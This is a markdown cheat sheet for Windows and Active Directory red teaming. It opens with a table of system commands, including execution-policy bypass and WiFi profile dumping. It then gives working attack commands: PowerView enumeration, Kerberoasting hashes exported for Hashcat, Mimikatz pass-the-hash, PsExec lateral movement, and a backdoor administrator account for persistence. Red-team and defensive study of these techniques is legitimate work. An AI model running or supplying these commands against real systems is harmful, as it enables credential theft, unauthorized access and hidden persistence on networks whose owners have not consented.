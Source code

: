# Windows Red Team


| Command    | Description                                                                                                                                                                       |
|------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ipconfig   | Display the IP configuration for all network interfaces. Example: ipconfig /all                                                                                                               |
| net        | A suite of commands for network settings and shares. Example: net user to list users.                                                                                                         |
| netstat    | Network statistics. Example: netstat -ano to display active TCP connections and process PID.                                                                                                  |
| nslookup   | Query the DNS server for domain name or IP address mapping. Example: nslookup example.com                                                                                                     |
| whoami     | Display the username and domain of the current user. Example: whoami                                                                                                                          |
| systeminfo | Display detailed configuration information about a computer and its operating system. Example: systeminfo                                                                                     |
| schtasks   | Schedule tasks to run periodically or at a specific time. Example: schtasks /create /tn TaskName /tr TaskRun /sc daily                                                                        |
| wmic       | Windows Management Instrumentation Command-line. Example: wmic process list brief lists details about all processes.                                                                          |
| gpresult   | Display the Resultant Set of Policy (RSoP) information for a remote user and computer. Example: gpresult /r                                                                                   |
| powershell | Starts a new PowerShell session. Example: powershell -exec bypass to start PowerShell with script execution policy bypassed.                                                                  |
| sc         | Service Control - manage Windows services. Example: sc query to display the status of services.                                                                                               |
| tasklist   | Lists all running tasks/processes. Example: tasklist                                                                                                                                          |
| taskkill   | Kill a running task/process. Example: taskkill /PID pid_number                                                                                                                                |
| reg        | Registry command that allows you to read from and write to the registry. Example: reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run to check all the programs that run at startup. |
| icacls     | Display or modify Access Control Lists (ACLs) for files and directories. Example: icacls C:\path\to\folder to display the ACLs.                                                               |
| netsh      | Network command to view or modify network configurations. Example: netsh wlan show profile to show saved WiFi profiles.                                                                       |

## Red Team Quick Strategies

Here's a succinct guide for some key Red Teaming concepts and practices regarding Windows and Active Directory.

**Enumeration** 

You start with gathering as much information as possible about the target environment. 

For instance, you can use PowerView, a PowerShell tool to explore Active Directory domain.
powerview: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
Example:
```
Import-Module .\Powerview.ps1
Get-NetDomain
```
This command gets information about the current domain.

**Kerberoasting**

A technique that involves cracking service account passwords. TGS tickets get requested and cracked offline without sending any traffic to the target, hence evasion.

You can use Invoke-Kerberoast in PowerView to kerberoast:

```
Invoke-Kerberoast -OutputFormat Hashcat|Select-Object -ExpandProperty hash | Out-File -Encoding ASCII kerbhashes.txt
```
This command generates a Hashcat-ready file with all the hashes.

**Pass-the-Hash**

A technique where you use a user's NTLM hash instead of the plaintext password for authentication.

For example, using the tool Mimikatz:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:<ntlm_hash> /run:cmd.exe
```

This starts a new process (cmd.exe) with the specified user and hash.

**Lateral Movement**

This involves moving from one machine to another within the network to gain elevated privileges or to access specific resources.

A common method is to use PsExec for executing payloads on other machines:

```
PsExec.exe \\targetPC -u domain\username -p password cmd
```

This command runs cmd.exe on the target machine.

**Persistence**

Ensure you can retain access, even if the system reboots or the user logs out. A common method is to create a backdoor user in the AD.

```
net user /add [username] [password]
net localgroup administrators [username] /add
```

These commands add a new user and put it into the administrators group.

